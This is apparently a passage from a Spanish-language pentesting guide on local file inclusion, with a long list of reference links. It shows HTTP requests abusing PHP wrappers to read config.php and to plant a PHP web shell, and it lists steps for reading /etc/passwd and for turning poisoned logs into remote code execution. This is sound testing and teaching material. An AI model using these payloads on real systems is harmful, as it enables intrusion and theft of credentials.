 ### PHP Wrappers para Escalada[^4]

**php://filter para lectura:**

```http
GET /include.php?page=php://filter/convert.base64-encode/resource=config.php HTTP/1.1
Host: victima.com
```

**php://input para RCE:**

```http
POST /include.php?page=php://input HTTP/1.1
Host: victima.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

<?php system($_GET['cmd']); ?>
```

### Evidencias Mínimas

- Screenshots de archivos sensibles accedidos (`/etc/passwd`, logs)
- Contenido de archivos de configuración con credenciales
- Código fuente de aplicación revelando lógica interna
- Confirmación de RCE mediante wrappers o log poisoning

## PoC

### Manual: Lectura de Archivo Sensible

**Objetivo:** Demostrar acceso no autorizado a archivos del sistema

**Pasos:**

1. Identificar parámetro vulnerable: `?file=` en victima.com
2. Probar traversal básico: `?file=../../../../etc/passwd`
3. Analizar respuesta para confirmar acceso exitoso
4. Documentar contenido de archivo accedido
5. Intentar acceso a archivos de configuración críticos

**Resultado Esperado:** Lectura exitosa de `/etc/passwd` o archivos similares

### Manual: Log Poisoning para RCE

**Objetivo:** Escalar LFI a ejecución remota de código

**Pasos:**

1. Confirmar LFI puede acceder logs: `?file=/var/log/apache2/access.log`
2. Envenenar logs con código PHP malicioso via User-Agent
3. Incluir log envenenado mediante LFI
4. Ejecutar comandos remotos y confirmar RCE

### Automatizada: Script de Detección y Explotación


[^1]: https://virtualcyberlabs.com/local-file-inclusion-lfi/
[^2]: https://atlansec.es/blog/posts/06-04-2025/
[^3]: https://www.invicti.com/learn/local-file-inclusion-lfi/
[^4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_File_Inclusion
[^5]: https://www.offsec.com/metasploit-unleashed/file-inclusion-vulnerabilities/
[^6]: https://www.hackplayers.com/2018/12/race-condition-phpinfo-mas-lfi-rce.html
[^7]: https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition
[^8]: https://www.fastly.com/blog/back-to-basics-directory-traversal
[^9]: https://www.invicti.com/learn/directory-traversal-path-traversal/
[^10]: https://www.invicti.com/blog/web-security/php-stream-wrappers/
[^11]: https://infosecwriteups.com/rce-via-lfi-oscp-tactics-for-code-execution-and-gaining-a-foothold-on-a-system-b35d0655f3c7
[^12]: https://nsfocusglobal.com/path-traversal-attack-protection/
[^13]: https://www.slideshare.net/slideshow/waf-bypassing-techniques/64302972
[^14]: https://bugbase.ai/blog/top-10-ways-to-bypass-waf
[^15]: https://bogner.sh/2018/04/race-to-rce-there-is-more-on-the-web-than-just-xss/
[^16]: https://github.com/topics/lfi-detection?o=asc\&s=updated
[^17]: https://www.acunetix.com/vulnerability-scanner/lfi-vulnerability-scanner/
[^18]: https://stackoverflow.com/questions/64088681/how-to-test-and-exploit-lfi-vulnerabilities
[^19]: https://www.brightsec.com/blog/lfi-attack-real-life-attacks-and-attack-examples/
[^20]: https://www.avertium.com/flash-notices/wordpress-review-plugin-local-file-inclusion
[^21]: https://support.polarisec.com/en/docs/general-knowledge/lfi-and-rfi-attacks/
[^22]: https://github.com/advisories/GHSA-qq86-38fr-rcf3
[^23]: https://nvd.nist.gov/vuln/detail/CVE-2025-49138
[^24]: https://github.com/advisories/GHSA-p75g-cxfj-7wrx
[^25]: https://www.cvedetails.com/cve/CVE-2025-51057/
[^26]: https://owasp.org/www-community/attacks/Path_Traversal
[^27]: https://www.exploit-db.com/exploits/52125
[^28]: https://portswigger.net/web-security/file-path-traversal
[^29]: https://www.riskinsight-wavestone.com/en/2022/09/barbhack-2022-leveraging-php-local-file-inclusion-to-achieve-universal-rce/
[^30]: https://nvd.nist.gov/vuln/detail/CVE-2025-26905
[^31]: https://techbrunch.github.io/patt-mkdocs/Directory Traversal/
[^32]: https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-2/
[^33]: https://www.cve.org/cverecord?id=CVE-2025-0632
[^34]: https://www.aikido.dev/blog/path-traversal-in-2024-the-year-unpacked
[^35]: https://patchstack.com/articles/critical-lfi-to-rce-vulnerability-in-wp-ghost-plugin-affecting-200k-sites/
[^36]: https://wpscan.com/vulnerability/7570bd32-f660-44e7-abc6-5d4ea369fe30/
[^37]: https://advisories.checkpoint.com/defense/advisories/public/2024/cpai-2024-0395.html/
[^38]: https://deephacking.tech/php-wrappers-pentesting-web/
[^39]: https://www.cobalt.io/blog/a-pentesters-guide-to-file-inclusion
[^40]: https://brightsec.com/blog/local-file-inclusion-lfi/
[^41]: https://4geeks.com/lesson/local-file-inclusion-remote-file-inclusion
[^42]: https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass
[^43]: https://github.com/topics/lfi-scanner
[^44]: https://www.yeswehack.com/learn-bug-bounty/practical-guide-path-traversal-attacks
[^45]: https://medium.verylazytech.com/enhancing-your-understanding-of-local-file-inclusion-lfi-35a26f9efadd
[^46]: https://code.google.com/archive/p/teenage-mutant-ninja-turtles/wikis/AdvancedObfuscationPathtraversal.wiki
[^47]: https://fluidattacks.com/es/advisories/silva
[^48]: https://hackmd.io/@Solderet/list/%2FgZFHwwuQQo6ya_Q6ULYrdA
[^49]: https://www.scribd.com/document/857621425/Advanced-LFI-Bypass-Techniques
[^50]: https://gynvael.coldwind.pl/?id=418
[^51]: https://waf-bypass.com/2025/03/page/2/
[^52]: https://help.fortinet.com/fweb/605/Content/FortiWeb/fortiweb-admin/web_protection.htm
[^53]: https://www.youtube.com/watch?v=5g137gsB9Wk
[^54]: https://infosecwriteups.com/️-how-to-bypass-web-application-firewalls-wafs-8346e6e79dd3
[^55]: https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/783
[^56]: https://waf-bypass.com/2025/05/